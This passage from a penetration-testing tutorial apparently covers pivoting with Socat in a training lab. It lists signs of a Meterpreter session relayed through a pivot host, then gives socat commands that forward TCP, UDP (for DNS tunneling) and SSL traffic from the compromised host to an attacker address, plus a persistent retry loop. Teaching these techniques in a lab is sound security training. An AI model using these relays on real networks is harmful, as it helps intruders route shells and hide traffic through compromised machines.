 **Success Indicators:**
- Connection appears to come from pivot host (10.129.202.64)
- Meterpreter session established successfully
- Commands execute on Windows target
- Traffic flows transparently through Socat

---

## **5. Advanced Socat Configurations**

### **Multiple Port Forwarding**

```bash
# Forward multiple ports simultaneously
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80 &
socat TCP4-LISTEN:8443,fork TCP4:10.10.14.18:443 &
socat TCP4-LISTEN:3389,fork TCP4:10.10.14.18:3389 &

# Background processes for persistent forwarding
```

### **UDP Traffic Forwarding**

```bash
# Forward UDP traffic (for DNS tunneling, etc.)
socat UDP4-LISTEN:53,fork UDP4:10.10.14.18:53

# Useful for DNS-based payloads or tunneling
```

### **SSL/TLS Forwarding**

```bash
# Forward SSL traffic with certificate
socat OPENSSL-LISTEN:443,cert=server.pem,fork TCP4:10.10.14.18:443

# Provides encrypted channel for sensitive traffic
```

### **Persistent Forwarding**

```bash
# Create persistent Socat forwarding with retry
while true; do
    socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
    sleep 5
done
```

---

## **6. Socat vs Other Pivoting Methods**
